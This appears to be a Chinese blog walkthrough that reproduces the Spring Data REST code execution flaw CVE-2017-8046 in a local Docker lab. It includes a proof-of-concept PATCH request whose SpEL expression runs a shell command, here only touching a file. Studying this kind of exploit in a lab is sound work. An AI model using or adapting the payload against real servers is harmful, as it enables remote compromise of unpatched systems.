 ```yaml
---
title: Spring Data REST PATCH请求代码执行漏洞(CVE-2017-8046)
category: 
- 渗透测试
tags: 
- Pocsuite
- Docker
- 漏洞复现
---
```


### 漏洞概述

- [影响版本](https://pivotal.io/security/cve-2017-8046)

### 漏洞环境搭建

- 拉取镜像到本地

```bash
$ docker pull medicean/vulapps:s_spring_1
```

- 启动环境

```bash
$ docker run -d -p 8080:8080 medicean/vulapps:s_spring_1
```



<!-- more -->

### 漏洞利用

- 访问 `http://你的 IP 地址:端口号/`

![image-20201126155613913](https://cdn.jsdelivr.net/gh/John-tlh/blog/images/2020image-20201126155613913.png)

- POST 请求添加一个数据

```http
POST /persons HTTP/1.1
Host: 127.0.0.1:8080
ontent-Type: application/json
Cache-Control: no-cache
{"firstName": "VulApps", "lastName": "VulApps"}
```

![image-20201126162021732](https://cdn.jsdelivr.net/gh/John-tlh/blog/images/2020image-20201126162021732.png)

![image-20201126162052556](https://cdn.jsdelivr.net/gh/John-tlh/blog/images/2020image-20201126162052556.png)

- 执行poc

```http
PATCH /persons/5 HTTP/1.1
Host: 127.0.0.1
Content-Type: application/json-patch+json
Cache-Control: no-cache
Content-Length: 220

[{"op":"replace","path":"T(java.lang.Runtime).getRuntime().exec(newjava.lang.String(newbyte[]{47,117,115,114,47,98,105,110,47,116,111,117,99,104,32,47,116,109,112,47,118,117,108,110}/lastName", "value": "vulapps-demo" }]
```

![image-20201126162129463](https://cdn.jsdelivr.net/gh/John-tlh/blog/images/2020image-20201126162129463.png)

### 参考链接

[references](https://mp.weixin.qq.com/s/uTiWDsPKEjTkN6z9QNLtSA)

<!-- more -->
